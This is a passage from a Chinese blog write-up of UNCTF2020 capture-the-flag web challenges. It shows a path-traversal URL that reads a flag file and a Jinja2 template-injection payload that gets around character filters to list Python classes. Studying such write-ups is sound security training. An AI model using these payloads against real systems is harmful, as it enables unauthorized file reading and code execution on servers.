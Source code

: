 

# UNCTF2020web方向部分题解_bmth666的博客-CSDN博客

> 来源：[https://blog.csdn.net/bmth666/article/details/109765055](https://blog.csdn.net/bmth666/article/details/109765055)

## Web方向

### easy_ssrf

php遇到不认识的协议就会当目录处理
`?url=0://unctf.com/../../../../../../../../flag`
![](img/e3e10f1858a6ba85a1fdf94e404fcde1.png)

### easyflask

[SSTI/沙盒逃逸详细总结](https://www.anquanke.com/post/id/188172)
[SSTI模板注入及绕过姿势(基于Python-Jinja2)](https://blog.csdn.net/solitudi/article/details/107752717)
解题思路：`{{2*2}}`
发现是ssti，过滤了`_`，`'`，`"`，`[`，`]`，`%`，使用(request.args.x1)，get请求x1绕过`__class__`
写一个get请求的payload:
读取所有的class类

```
?guess={{%20({}|attr(request.args.x1)|attr(request.args.x2)|%20attr(request.args.x3)())}}&x1=__class__&x2=__base__&x3=__subclasses__ 
```
